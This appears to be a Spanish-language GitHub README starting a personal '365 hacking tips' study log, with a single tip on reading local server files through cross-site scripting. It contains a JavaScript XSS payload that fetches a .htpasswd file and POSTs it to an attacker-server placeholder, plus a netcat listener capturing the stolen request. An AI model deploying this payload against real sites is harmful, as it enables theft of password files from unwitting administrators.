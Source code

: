 # 365 Tips De Hacking
En este repo quiero contribuir una vez al día, diariamente publicare una técnica o tip que aprenda, la meta es estudiar diario y aprender algo nuevo cada día, esto lo hago como un registro y por si en algún momento vuelvo a utilizar algo de aqui :p 
## Índice
- [Introducción](#)
## Tip #1: Lectura de archivos desde un XSS
Al descubrir un XSS se puede realizar la lectura de archivos locales mediante peticiones a un servidor web propio, la idea es enviar el XSS payload a un usuario que si pueda acceder a ciertos archivos del servidor, por ejemplo el archivo .htpasswd, a continuación muestro el payload:
```javascript
<script>
fetch("http://ejemplo.com/.htpasswd").then(response => response.text())
  .then(data => fetch("http://<servidor.del.atacante>", {
      method: "POST",
      body: data
  }));
</script>
```
Ahora nosotros nos ponemos a la escucha en ```netcat``` y al enviar el payload al administrador recibiremos el archivo:
```netcat
┌──(jorge㉿pentest)-[~]
└─$ nc -nvlp 1234
listening on [any] 1234 ...
connect to [10.10.14.27] from (UNKNOWN) [{redacted}] 48096
POST / HTTP/1.1
Host: 10.10.14.27:1234
Connection: keep-alive
Content-Length: 57
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/122.0.6261.111 Safari/537.36
Content-Type: text/plain;charset=UTF-8
Accept: */*
Origin: {redacted}
Referer: {redacted}
Accept-Encoding: gzip, deflate

<pre>{redacted}
</pre>
```
